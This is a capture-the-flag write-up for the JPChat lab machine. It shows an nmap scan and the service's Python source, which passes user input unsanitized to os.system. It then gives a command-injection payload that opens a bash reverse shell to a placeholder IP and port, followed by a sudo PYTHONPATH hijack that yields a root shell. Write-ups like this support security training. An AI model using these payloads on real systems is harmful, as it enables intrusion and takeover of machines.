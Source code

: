 ## JPGChat

# Enumeration
```
# Nmap 7.91 scan initiated Sun Feb 28 13:57:44 2021 as: nmap -sC -sV -o nmap/initial -vvv -p 22,3000 10.10.236.124
Nmap scan report for 10.10.236.124
Host is up, received echo-reply ttl 61 (0.15s latency).
Scanned at 2021-02-28 13:57:45 PST for 13s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
3000/tcp open  ppp?    syn-ack ttl 61
| fingerprint-strings:
|   GenericLines, NULL:
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.91%I=7%D=2/28%Time=603C11E0%P=x86_64-pc-linux-gnu%r(NU
SF:LL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x20
SF:service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSAG
SF:E\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(currentl
SF:y\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x20
SF:report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Gen
SF:ericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20t
SF:his\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\
SF:nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(c
SF:urrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x2
SF:0to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 28 13:57:58 2021 -- 1 IP address (1 host up) scanned in 13.29 seconds
```

# Port 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)

https://github.com/Mozzie-jpg/JPChat
jpchat.py
```
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```
so based on the source code when we connect to the service and choose to make a report, we will be prompted to enter a name and then it will run bash and echo our string. There is no input sanitization so if we escape the echo with ;(semicolon) we can then execute another bash command.
```
# nc 10.10.241.107 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
name;bash -i >& /dev/tcp/IP/PORT 0>&1;
your report:
blah
name
```
And we have a reverse shell on our awaiting listener, We stabilize our shell and are the user wes. We can find the user flag in /home/wes/user.txt

# Privilege Escalation
```
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```
Looks like we can set environment variables for PYTHONPATH and run a python script with sudo privileges
```
cat /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
We can't directly write to this file or the directory so a direct code injection or in directory library hijack is not possible. However, because of the env_keep+=PYTHONPATH we can adjust this to a directory we can write to, such as  /home/wes, /dev/shm, /tmp, etc... and place a compare.py with our escalation payload 
 ```
import os
os.system("/bin/bash")
```

we then execute the following
```
export PYTHONPATH="/dev/shm"
sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm#
```
we successfully get a root shell and can find the flag in /root
